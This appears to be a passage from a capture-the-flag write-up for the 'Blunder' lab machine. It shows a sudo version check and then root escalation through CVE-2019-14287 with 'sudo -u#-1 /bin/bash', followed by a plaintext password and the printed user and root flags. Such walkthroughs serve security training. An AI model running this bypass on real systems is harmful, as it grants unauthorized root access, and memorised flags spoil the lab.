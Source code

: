~~~
hugo@blunder:~$ sudo /bin/bash
sudo /bin/bash
Sorry, user hugo is not allowed to execute '/bin/bash' as root on blunder.
hugo@blunder:~$ 
~~~

version ??

~~~
hugo@blunder:/var/www/bludit-3.9.2/bl-content/tmp$ sudo --version
sudo --version
Sudo version 1.8.25p1
Sudoers policy plugin version 1.8.25p1
Sudoers file grammar version 46
Sudoers I/O plugin version 1.8.25p1
hugo@blunder:/var/www/bludit-3.9.2/bl-content/tmp$ 
~~~

Sudo bypass: Ref:

- [https://www.exploit-db.com/exploits/47502](https://www.exploit-db.com/exploits/47502)
- [https://n0w4n.nl/sudo-security-bypass/](https://n0w4n.nl/sudo-security-bypass/)
- [https://blog.aquasec.com/cve-2019-14287-sudo-linux-vulnerability](https://blog.aquasec.com/cve-2019-14287-sudo-linux-vulnerability)

'CVE-2019-14287, a new security issue discovered by Joe Vennix of Apple Information Security, in all Sudo versions prior to version 1.8.28.'

~~~
hugo@blunder:~$ sudo -u#-1 /bin/bash
sudo -u#-1 /bin/bash
Password: Password120

root@blunder:/home/hugo# cat user.txt
cat user.txt
e2aa5bddc5737359a6b3bc36d58cd3ee
root@blunder:/home/hugo# cd ..
cd ..
root@blunder:/home# ls
ls
hugo  shaun
root@blunder:/home# cd ..
cd ..
root@blunder:/# ls
ls
bin    dev  home   lib64       media  proc  sbin  sys  var
boot   etc  lib    libx32      mnt    root  snap  tmp
cdrom  ftp  lib32  lost+found  opt    run   srv   usr
root@blunder:/# cd root	
cd root
root@blunder:/root# ls 
ls 
root.txt
root@blunder:/root# cat root.txt
cat root.txt
6be6ccc559976b4b6c2e9351b604bad6
root@blunder:/root# 
~~~

